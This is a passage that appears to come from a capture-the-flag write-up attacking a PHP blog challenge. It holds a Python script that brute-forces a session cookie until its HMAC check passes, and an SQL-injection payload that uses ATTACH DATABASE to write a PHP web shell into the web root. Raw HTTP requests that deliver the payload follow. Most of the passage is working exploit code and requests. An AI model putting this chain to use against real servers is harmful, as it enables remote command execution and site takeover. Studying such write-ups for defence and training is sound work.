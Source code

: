 ```python
    the hash_hmac() output begins with '\x00'.
    """
    i = 0
    exploit = urllib.parse.quote_plus(exploit).replace('+', ' ')
    while True:

        print(i)

        tmp = exploit + str(i)

        # Test if the hash_hmac() output begins with '\x00' (if it does, then the MAC is valid)
        r = requests.get(URL, cookies={'session': tmp + '|' + mac})
        if "My shitty Blog" in r.text:
            return tmp

        i += 1


# mac = find_collision()
mac = "QAhL.MoHxwRM3Bt/pMvSrjxnRCAxaim7VAtMVwCnNgsjtlWO3AKBcd1WY9NYPrxtUrTluTorPK4laJKcJydWB0"
print(f"Found MAC: {mac}")

exploit = find_exploit_collision("20 or 1=1; ATTACH DATABASE '/var/www/html/data/nice.php' AS lol; CREATE TABLE lol.pwn (dataz text); INSERT INTO lol.pwn (dataz) VALUES ('<?php system($_GET[\"cmd\"]); ?>');#", mac)
print(f"Found exploit: {exploit}")

print(f"Set session cookie: {exploit}|{mac}")
```

Once we obtain the payload, we first have to create an entry with the malicious user ID payload.

```http
POST / HTTP/1.1
Host: 65.108.176.96
Cookie: session=20 or 1%3D1%3B ATTACH DATABASE %27%2Fvar%2Fwww%2Fhtml%2Fdata%2Fnice.php%27 AS lol%3B CREATE TABLE lol.pwn %28dataz text%29%3B INSERT INTO lol.pwn %28dataz%29 VALUES %28%27%3C%3Fphp system%28%24_GET%5B%22cmd%22%5D%29%3B %3F%3E%27%29%3B%23178|QAhL.MoHxwRM3Bt/pMvSrjxnRCAxaim7VAtMVwCnNgsjtlWO3AKBcd1WY9NYPrxtUrTluTorPK4laJKcJydWB0
Connection: close
Content-Length: 12

content=test
```

Next, we simply delete the created entry. This is when the user ID payload is substituted into the SQL query, causing a PHP file to be created.

```http
POST / HTTP/1.1
Host: 65.108.176.96
Cookie: session=20 or 1%3D1%3B ATTACH DATABASE %27%2Fvar%2Fwww%2Fhtml%2Fdata%2Fnice.php%27 AS lol%3B CREATE TABLE lol.pwn %28dataz text%29%3B INSERT INTO lol.pwn %28dataz%29 VALUES %28%27%3C%3Fphp system%28%24_GET%5B%22cmd%22%5D%29%3B %3F%3E%27%29%3B%23178|QAhL.MoHxwRM3Bt/pMvSrjxnRCAxaim7VAtMVwCnNgsjtlWO3AKBcd1WY9NYPrxtUrTluTorPK4laJKcJydWB0
Connection: close
Content-Length: 12

content=test
```
